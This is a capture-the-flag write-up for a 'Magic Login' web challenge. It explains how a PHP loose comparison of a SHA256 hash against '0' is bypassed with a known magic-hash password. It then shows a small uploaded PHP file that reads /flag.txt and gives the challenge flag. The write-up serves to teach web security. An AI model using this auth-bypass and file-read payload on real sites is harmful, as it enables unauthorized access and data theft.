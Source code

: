 After trying a few SQL injection queries, I realized that it's not work :(

I could also not see any flaws in the workflow and decided to check [the write-up in the internet](https://forum.cookiearena.org/t/cookie-arena-ctf-season-2-writeup-magic-login/92).
The key of this challenge is about [Loose Comparison in PHP](https://www.copterlabs.com/strict-vs-loose-comparisons-in-php/).

Inspecting the web, I found that code:
```php
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
} 
```
We realize that if we can bypass `if($pas == "0")`, we can go to upload page
but no way to have an output `0` through the SHA256 hash function. Now the operator `==` is the flaw of this code with Loose Comparison.

In PHP, `0e...` is the exponent of zero, and we find an input that matches the condition that after going through the SHA256 hash function, it becomes a string starts with `0e`
I found that in [here](https://security.stackexchange.com/questions/171087/how-to-bypass-php-strings-comparison-for-sha256-string) wih input: `34250003024812`
After login with `<some_string>:34250003024812`
![img.png](img.png)

Upload a php file to the server with content:
```php
<?php echo file_get_contents('/flag.txt'); ?>
```
It's successfully uploaded and check this file, we gain the flag:
![img_1.png](img_1.png)

Flag: `CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_d8ead8568b9580e55b64cf03243d8d3e}`